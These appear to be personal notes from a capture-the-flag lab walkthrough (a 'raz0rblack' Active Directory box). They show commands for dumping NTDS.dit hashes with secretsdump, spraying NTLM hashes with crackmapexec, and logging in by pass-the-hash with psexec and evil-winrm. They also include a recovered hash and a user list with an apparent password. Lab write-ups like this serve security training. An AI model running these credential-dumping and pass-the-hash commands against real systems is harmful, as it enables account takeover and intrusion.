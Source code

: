 Let's see if we can get some passwords or hashes from the ntds.dit file that we got from the zip file

Will use secretsdump aka from impacket toolkit
```
secretsdump.py -system system.hive -security SECURITY -ntds ntds.dit local
```

![[Pasted image 20230920161532.png]]

Now the question stands is how to extract the hash part from the file
As we know from the info that the hash is NTLM so we have to make a script accordingly

```
cat ntds_dump.txt | cut -d':' -f4 | tee final_hash.txt
```

![[Pasted image 20230920170824.png]]
We got the file which can be passed as an hash now

We u recall we got the users list:
Modified User list 
```
dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
twilliams roastpotatoes
sbradley
clin
```

Will try for lvetrova who's the admin 
```
crackmapexec -t 100 smb 10.10.213.74 -u lvetrova -d raz0rblack.thm -H final_hash.txt --continue-on-success
```

note: delete the extra text in the final_hash.txt to avoid the errors and it took like 2-3 minute before i got the result aka hash
![[Pasted image 20230920173438.png]]
As u can see the script stopped once we got the hash.

```
f220d3988deb3f516c73f40ee16c431d
```

User: lvetrova
Hash: f220d3988deb3f516c73f40ee16c431d

Will try to run psexec.py
```
psexec.py raz0rblack.thm/lvetrova@10.10.213.74 -H f220d3988deb3f516c73f40ee16c431d
```

I don't know but psexec is not running as we want to

Let's try with another tool evil-winrm
https://github.com/Hackplayers/evil-winrm

Command to install 
```
gem install evil-winrm
```

```
evil-winrm  -i 10.10.213.74 -u lvetrova -H 'f220d3988deb3f516c73f40ee16c431d'
```
![[Pasted image 20230920175200.png]]

